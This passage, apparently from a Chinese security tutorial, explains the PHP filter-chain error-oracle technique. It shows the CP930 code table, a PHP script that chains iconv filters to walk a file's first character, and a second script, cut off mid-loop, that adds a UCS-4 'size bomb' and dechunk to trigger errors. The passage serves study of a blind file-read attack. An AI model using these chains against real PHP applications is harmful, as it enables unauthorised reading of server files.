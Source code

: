 CP930、X-IBM930

|  | x0 | x1 | x2 | x3 | x4 | x5 | x6 | \[...\] | xf |
|---|---|---|---|---|---|---|---|---|---|
| \[...\] |  |  |  |  |  |  |  |  |  |
| 6x | - | / | a | b | c | d | e | \[...\] | ? |
| \[...\] |  |  |  |  |  |  |  |  |  |
| cx | { | A | B | C | D | E | F | \[...\] |  |
| \[...\] |  |  |  |  |  |  |  |  |  |
| fx | 0 | 1 | 2 | 3 | 4 | 5 | 6 | \[...\] | Ÿ |

我们可以看到在X-IBM930中小写字母，大写字母和数字都是在不同索引上的，所以base64-encode就不会弄混。  
来看个例子

```php
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}
```

执行

```shell
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, First char value : b
IBM-930 conversions : 2, First char value : c
IBM-930 conversions : 3, First char value : d
IBM-930 conversions : 4, First char value : e
IBM-930 conversions : 5, First char value : f
IBM-930 conversions : 6, First char value : g
IBM-930 conversions : 7, First char value : h
```

其中`$remove_junk_chars`是用于从链中删除不可打印的字符，\\$guess\_char 用于应用 X-IBM-930 编解码器。最后，每次循环都会打印转换后的文件内容的第一个字符。

然后我们来试试和前面构造error一样

```php
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."edcba"[$i-1]."\n";
```